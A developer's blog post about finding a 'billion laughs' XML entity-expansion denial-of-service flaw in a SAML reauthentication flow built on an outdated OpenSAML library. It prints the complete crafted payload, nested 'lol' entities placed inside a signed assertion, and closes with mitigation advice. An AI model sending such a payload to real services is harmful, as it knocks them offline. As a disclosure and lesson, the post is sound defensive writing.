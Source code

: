 ```yaml
---
title: "Laughing out loud - Malicious Reauthentication"
date: 2018-06-04T10:02:51+01:00
tags: ["security", "xml-is-evil"]
featured_image: "/images/laughing_out_loud_malicious_auth_title.png"
---
```


# Background

I had found a vulnerability that made it is possible to insert maliciously crafted XML into the SAML payload that a reauthentication application returned to perform a Denial of Service (DoS) attack. The vulnerability came about due to the use of a out-of-date but still widely used library.

The service could have been made to consume a lot of CPU and memory causing it respond very slowly if at all. Health checks and automatic service restarts would have healed the service but it still would have allowed an attacker to mount a sustained Denial of Service attack without needing a lot of requests.

This post describes the vulnerability found in the opensaml-1.1 which was used to reauthenticate request. In this instance the reauthentication between apps worked by sending a payload to the reauthentication app, which then revalidated username/password and then returned the payload as a SAML assertion. This would be sent to the browser and POSTed back to the originating app.

The underlying SAML assertion would look something like that:

```xml
<Assertion xmlns="urn:oasis:names:tc:SAML:1.0:assertion" xmlns:saml="urn:oasis:names:tc:SAML:1.0:assertion"
           xmlns:samlp="urn:oasis:names:tc:SAML:1.0:protocol" xmlns:xsd="http://www.w3.org/2001/XMLSchema"
           xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" AssertionID="_799fe6f5d865e965f751fb7b5f490530"
           IssueInstant="2018-03-29T13:13:46.244Z" Issuer="redacted.com" MajorVersion="1" MinorVersion="1">
    <Conditions NotBefore="2018-03-29T13:13:46.244Z" NotOnOrAfter="2018-03-29T13:24:46.244Z"></Conditions>
    <AuthenticationStatement AuthenticationInstant="2018-03-29T13:13:46.244Z" AuthenticationMethod="urn:oasis:names:tc:SAML:1.0:am:unspecified">
        <Subject>
            <NameIdentifier Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified" NameQualifier="SubjectNameQualifier">SubjectName</NameIdentifier>
        </Subject>
    </AuthenticationStatement>
    <AttributeStatement>
        <Subject>
            <NameIdentifier Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified" NameQualifier="SubjectNameQualifier">SubjectName</NameIdentifier>
        </Subject>
        <Attribute AttributeName="sspayload" AttributeNamespace="http://redacted.com">
            <AttributeValue>lHJfAvtsbKuRoknWbaiqTXiP0HUPIk6Iu/JwM5pgsEo=</AttributeValue>
        </Attribute>
        <Attribute AttributeName="payload" AttributeNamespace="http://redacted.com">
            <AttributeValue>iXNKzPtGTrm...sgl7SDiyanNbt6LwIpePh</AttributeValue>
        </Attribute>
    </AttributeStatement>
    <ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
        <ds:SignedInfo>
            <ds:CanonicalizationMethod Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"></ds:CanonicalizationMethod>
            <ds:SignatureMethod Algorithm="http://www.w3.org/2000/09/xmldsig#hmac-sha1"></ds:SignatureMethod>
            <ds:Reference URI="#_799fe6f5d865e965f751fb7b5f490530">
                <ds:Transforms>
                    <ds:Transform Algorithm="http://www.w3.org/2000/09/xmldsig#enveloped-signature"></ds:Transform>
                    <ds:Transform Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#">
                        <ec:InclusiveNamespaces xmlns:ec="http://www.w3.org/2001/10/xml-exc-c14n#" PrefixList="code ds kind rw saml samlp typens #default xsd xsi"></ec:InclusiveNamespaces>
                    </ds:Transform>
                </ds:Transforms>
                <ds:DigestMethod Algorithm="http://www.w3.org/2000/09/xmldsig#sha1"></ds:DigestMethod>
                <ds:DigestValue>NObH8OXaRhbv/cIRBNes0Jc5m3c=</ds:DigestValue>
            </ds:Reference>
        </ds:SignedInfo>
        <ds:SignatureValue>89GMiWLrEWThzKpzeDjnCKjs1hI=</ds:SignatureValue>
    </ds:Signature>
</Assertion>
```

so far so good - the XML is protected against tampering by a signature and the payload is encrypted...

# Identifying a Problem

I ran the OWASP dependency checker against the dependencies

```shell script
$ mvn org.owasp:dependency-check-maven:3.1.1:check
```

and found the following vulnerability

```shell script
Published Vulnerabilities
CVE-2013-6440  suppress
Severity: Medium
CVSS Score: 5.0 (AV:N/AC:L/Au:N/C:P/I:N/A:N)
CWE: CWE-200 Information Exposure
The (1) BasicParserPool, (2) StaticBasicParserPool, (3) XML Decrypter, and (4) SAML Decrypter in Shibboleth OpenSAML-Java before 2.6.1 set the expandEntityReferences property to true, which allows remote attackers to conduct XML external entity (XXE) attacks via a crafted XML DOCTYPE declaration.
```

This led me to perform experiments trying to exploit XXE - considering the XML is passed through the browser (so an attacker can modify the XML)

# The Attack

I used [Charles proxy](https://www.charlesproxy.com) to set a breakpoint on the URL POSTing (I was testing this locally) and I modified the payload before it was POSTed back to the app that initiated the reauthentication

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE lolz [
        <!ENTITY lol "lol">
        <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
        <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
        <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
        <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
        <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
        <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
        <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
        <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
        <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<Assertion xmlns="urn:oasis:names:tc:SAML:1.0:assertion" xmlns:saml="urn:oasis:names:tc:SAML:1.0:assertion" xmlns:samlp="urn:oasis:names:tc:SAML:1.0:protocol" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" AssertionID="_ff91848d70cc3eb916a2d0549bb2e11a" IssueInstant="2018-03-29T14:32:38.564Z" Issuer="redacted.com" MajorVersion="1" MinorVersion="1"><Conditions NotBefore="2018-03-29T14:32:38.564Z" NotOnOrAfter="2018-03-29T14:43:38.564Z"></Conditions><AuthenticationStatement AuthenticationInstant="2018-03-29T14:32:38.564Z" AuthenticationMethod="urn:oasis:names:tc:SAML:1.0:am:unspecified"><Subject><NameIdentifier Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified" NameQualifier="SubjectNameQualifier">SubjectName</NameIdentifier></Subject></AuthenticationStatement><AttributeStatement><Subject><NameIdentifier Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified" NameQualifier="SubjectNameQualifier">SubjectName</NameIdentifier></Subject><Attribute AttributeName="sspayload" AttributeNamespace="http://redacted.com"><AttributeValue>NeGxMf9WPEcFqN7J7mfmW0G0pBOUO5nvhXj71WqxeuE=</AttributeValue></Attribute><Attribute AttributeName="payload" AttributeNamespace="http://redacted.com"><AttributeValue>iXNKzPtGTrmBZ/...A4tKERF1nFJRJE5DSqnJZc4wd1QU3C5S</AttributeValue></Attribute></AttributeStatement><ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
    <ds:SignedInfo>
        <ds:CanonicalizationMethod Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#">&lol9;</ds:CanonicalizationMethod>
        <ds:SignatureMethod Algorithm="http://www.w3.org/2000/09/xmldsig#hmac-sha1"></ds:SignatureMethod>
        <ds:Reference URI="#_ff91848d70cc3eb916a2d0549bb2e11a">
            <ds:Transforms>
                <ds:Transform Algorithm="http://www.w3.org/2000/09/xmldsig#enveloped-signature"></ds:Transform>
                <ds:Transform Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"><ec:InclusiveNamespaces xmlns:ec="http://www.w3.org/2001/10/xml-exc-c14n#" PrefixList="code ds kind rw saml samlp typens #default xsd xsi"></ec:InclusiveNamespaces></ds:Transform>
            </ds:Transforms>
            <ds:DigestMethod Algorithm="http://www.w3.org/2000/09/xmldsig#sha1"></ds:DigestMethod>
            <ds:DigestValue>NObH8OXaRhbv/cIRBNes0Jc5m3c=</ds:DigestValue>
        </ds:Reference>
    </ds:SignedInfo>
    <ds:SignatureValue>89GMiWLrEWThzKpzeDjnCKjs1hI=</ds:SignatureValue>
</ds:Signature></Assertion>
```

The embedded doctype and the LOL entities that result in the XML processor processing a LOT of "lol" ENTITIES - hence the name billion laugh attack.

Here is what it did to my local JVM:

![](/images/laughing_out_loud_malicious_auth_stats.png)

 and that is just a single request.

# Mitigation

I rewrote the code to use OpenSAML 3.3 which is not vulnerable. Unfortunately, as the API for OpenSAML changed significantly that wasn't just a matter of changing dependencies but rewriting the SAML generation code from scratch...

# Moral of the Story

*   Do not use outdated libs
*   Do run the OWASP checker
*   XML is evil
